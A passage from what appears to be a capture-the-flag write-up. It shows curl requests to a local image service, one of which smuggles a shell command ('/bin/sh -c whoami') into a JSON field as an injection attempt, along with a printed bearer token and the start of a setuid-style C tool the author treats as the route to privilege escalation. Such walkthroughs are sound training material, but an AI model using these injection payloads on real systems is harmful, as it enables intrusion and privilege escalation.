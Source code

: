 ```bash
curl -X POST http://localhost:9090/command -H "Content-Type: application/json" -H "Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJmcmVzaCI6ZmFsc2UsImlhdCI6MTczNzkzNDEyNSwianRpIjoiYzBmOTA1MjEtZjdkYy00MjMyLWE0NDMtMWM5ZWM2OGM2NWFjIiwidHlwZSI6ImFjY2VzcyIsInN1YiI6ImRldmVsb3BlciIsIm5iZiI6MTczNzkzNDEyNSwiY3NyZiI6IjcyNGZkMGJmLWZhNjctNDQ4YS04ZjIyLWYxOWI3MjhkMmIxZCIsImV4cCI6MTczNzkzNzcyNX0.rlv1DgTaw7Vz097tSlm9l9N0SLbDTfAfcQlzjOVZb28" --data '{"command":"send_image", "output_file": "/tmp/"}'

curl -X POST http://localhost:9090/command -H "Content-Type: application/json" -H "Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJmcmVzaCI6ZmFsc2UsImlhdCI6MTczNzkzNDEyNSwianRpIjoiYzBmOTA1MjEtZjdkYy00MjMyLWE0NDMtMWM5ZWM2OGM2NWFjIiwidHlwZSI6ImFjY2VzcyIsInN1YiI6ImRldmVsb3BlciIsIm5iZiI6MTczNzkzNDEyNSwiY3NyZiI6IjcyNGZkMGJmLWZhNjctNDQ4YS04ZjIyLWYxOWI3MjhkMmIxZCIsImV4cCI6MTczNzkzNzcyNX0.rlv1DgTaw7Vz097tSlm9l9N0SLbDTfAfcQlzjOVZb28" --data '{"command":"send_image", "output_file": "aaa \n /bin/sh -c whoami"}'
# -> {"error":"Error generating image: "}
```

Back on the box, I discover this:

```bash
ls /usr/local/bin
f2py  flask  image-tool  image-tool.c
```

The source code is key to unlocking the privilege escalation.

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <dirent.h>
#include <sys/stat.h>

#define MAX_PATH_LEN 256

void print_usage() {
    printf("Usage: /usr/local/bin/image-tool [--get-image <image_name.png>]\n");
}

int main(int argc, char *argv[]) {
    // Check if the argument is provided
    if (argc != 3 || strcmp(argv[1], "--get-image") != 0) {
        print_usage();
        return 1;
    }

    // Open directory
    DIR *dir;
    struct dirent *entry;
    char img_dir[MAX_PATH_LEN] = "/root/satellite/img";
    dir = opendir(img_dir);
    if (dir == NULL) {
        perror("Error opening directory");
        return 1;
    }

    // Count the number of PNG files in the directory
    int png_count = 0;
    while ((entry = readdir(dir)) != NULL) {
        if (entry->d_type == DT_REG && strstr(entry->d_name, ".png") != NULL) {
            png_count++;
        }
    }

    if (png_count == 0) {
```